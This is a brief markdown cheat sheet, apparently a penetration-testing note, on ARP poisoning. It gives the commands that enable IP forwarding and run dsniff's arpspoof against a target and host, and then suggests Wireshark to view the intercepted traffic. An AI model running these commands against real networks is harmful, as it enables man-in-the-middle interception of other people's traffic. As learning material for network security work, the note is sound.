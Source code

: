 # Arp Poisoning

### Introduction

It works by sending Gratious Arp Replies to the target machine which enables them to update their arp cache with fake information. Every 30s, an arp reply is sent to update the table.

***

### Dnsiff Arpspoof

1. Enable IP Forwarding

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

THen run arpspoof

```
arpspoof -i <interface> -t <target> -r <host>
```

Target and hosts are victim ip addresses . Finally, wireshark can be run to view the trafffic.

***
